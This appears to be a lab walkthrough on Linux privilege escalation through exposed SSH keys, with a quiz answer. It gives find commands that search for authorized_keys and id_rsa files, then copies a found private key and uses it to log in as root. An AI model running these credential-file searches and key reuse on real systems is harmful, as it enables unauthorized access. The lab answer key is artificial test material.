 Detection

Linux VM

1. In command prompt type:

```
find / -name authorized_keys 2> /dev/null
```

2. In a command prompt type:

```
find / -name id_rsa 2> /dev/null
```

3. Note the results.

![[Pasted image 20240601203713.png]]


Exploitation

Linux VM

1. Copy the contents of the discovered id_rsa file to a file on your attacker VM.

Attacker VM  

1. In command prompt type: chmod 400 id_rsa

2. In command prompt type: 

```
ssh -i id_rsa root@<ip>
```


You should now have a root shell :)

![[Pasted image 20240601204027.png]]


Answer the questions below

| Question                                                        | Answer                          |
| --------------------------------------------------------------- | ------------------------------- |
| What's the full file path of the sensitive file you discovered? | /backups/supersecretkeys/id_rsa |
